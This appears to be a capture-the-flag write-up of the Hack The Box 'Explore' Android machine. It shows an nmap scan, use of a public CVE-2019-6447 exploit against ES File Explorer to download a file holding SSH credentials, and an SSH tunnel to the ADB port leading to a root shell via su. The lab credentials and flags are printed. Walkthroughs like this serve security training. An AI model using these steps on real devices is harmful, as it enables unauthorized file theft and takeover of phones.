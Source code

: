 <img src="https://github.com/thedarktech/HTB-Writeups/blob/main/Explore/Pasted image 20211022152451.png" />

# Enumeration
---
## Nmap Scan

```bash
# Nmap 7.91 scan initiated Fri Oct 22 14:03:27 2021 as: nmap -A -sC -sV -p- -O -oN nmap 10.10.10.247
Nmap scan report for 10.10.10.247
Host is up (0.18s latency).
Not shown: 65531 closed ports
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
Network Distance: 2 hops
Service Info: Device: phone

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   185.07 ms 10.10.14.1
2   185.28 ms 10.10.10.247

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 22 14:08:39 2021 -- 1 IP address (1 host up) scanned in 311.53 seconds

```

So here we have a ssh port running on 2222 a filtered ADB port on 5555 and two http ports on 42135 and 59777 so lets check the http first

<img src="https://github.com/thedarktech/HTB-Writeups/blob/main/Explore/Pasted image 20211022150911.png" />

port 42135 returns a error Not Found

<img src="https://github.com/thedarktech/HTB-Writeups/blob/main/Explore/Pasted image 20211022150947.png" />

while the 59777 returns the forbidden error

---

## Foothold

So lets check for the ES file explorer vulnerability
after searching on google for ES file explorer open port vulnerability you can see a exploitdb post on Arbitary File Read

https://www.exploit-db.com/exploits/50070

so just get that payload and save it locally 

by listing for the pictures you can see a creds.jpg 

```bash
└─# python3 exploit.py listPics 10.10.10.247 

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)

```

So lets go ahead and download it

```bash
└─# python3 exploit.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg                                  1 ⨯

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
```

---

## User

Now the script will save the data in file out.dat so just rename it to creds.jpg

and here you can see the image with ssh credentials in it

<img src="https://github.com/thedarktech/HTB-Writeups/blob/main/Explore/creds.jpg" />

```creds
kristi:Kr1sT!5h@Rp3xPl0r3!
```


```bash
└─# ssh kristi@10.10.10.247 -p 2222                                                           
Password authentication
Password: 
:/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
:/ $ whoami
u0_a76
2|:/ $ cd sdcard
:/sdcard $ ls
Alarms  DCIM     Movies Notifications Podcasts  backups   user.txt 
Android Download Music  Pictures      Ringtones dianxinos 
:/sdcard $ cat user.txt
f32017174c7c7e8f50c6da52891ae250

```

And here we got the User flag

---

## Root

As we sow earlier there wa port 5555 filtered wich is basically used for adb in android
so lets create a ssh tnnel to forward it to our machine

```bash
sh kristi@10.10.10.247 -p 2222 -L 5555:127.0.0.1:5555   
Password authentication
Password: 
:/ $
```

This will create the ssh tunnel to forward 5555 port to our machine
now lets connect using adb

```bash
adb connect 127.0.0.1:5555
```

after a successful connection you can see the device by doing

```bash 
adb devices
```

now for interacting with shell use

```bash
└─# adb -s 127.0.0.1:5555 shell
x86_64:/ $ id                                                                                                      
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
x86_64:/ $ su

:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0
:/ # whoami
root
:/ # cat /data/root.txt
f04fc82b6d49b41c9b08982be59338c5
:/ #                                                                                                                
```

Remember we used SU to switch to root from shell 

Rooted..!!!
